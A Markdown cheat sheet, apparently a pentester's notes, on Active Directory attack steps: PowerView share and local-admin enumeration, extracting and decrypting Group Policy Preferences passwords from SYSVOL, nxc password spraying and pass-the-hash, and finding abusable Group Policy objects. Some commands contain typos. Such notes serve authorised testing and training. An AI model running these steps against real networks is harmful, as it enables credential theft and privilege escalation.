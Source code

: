 # Domain Shares
find domain share by powerview
```
Find-DomainShare
```

listing contents of the SYSVOL share
```
ls \\dc1.crop.com\sysvol\corp.com

default SYSVOL folder is mapped to %SystemRoot%\SYSVOL\Sysvol\domain-name
```


checking old policy backup file
```
ls \\dc1.crop.com\sysvol\corp.com\Policies
cat ls \\dc1.crop.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

gpp-decrypt to decrypt the password
```
gpp-decrypt "CPASSWORD"
```

# Find Local Admin Access
## PowerView
Checks which hosts in the domain the current user has local administrator access to.
```
Find-LocalAdminAccess
```

To specify target hosts
```
Find-LocalAdminAccess -ComputerName (Get-Content .\hosts.txt)
```
## nxc
Similar checks using `nxc smb`
use passwords
```
nxc smb ip.txt -u USER -p PASS --continue-on-success
```

use hashes
```
nxc smb 192.168.x.x -u USER -H 'NTLM' --continue-on-success 
```
# Find Vulnerable GPO
 check for the permissions our current user have over the GPONAME
```
import-module .\PowerView.ps1
Get-NetGPO | select displayname
Get-GPO -Name "GPONAME"
Get-GPPermission -Guid ID -TargetType User -TargetName USERNAME
```

ref:
```
https://medium.com/@raphaeltzy13/group-policy-object-gpo-abuse-windows-active-directory-privilege-escalation-51d8519a13d7
https://bit-bandits.com/sharpgpoabuse.html
```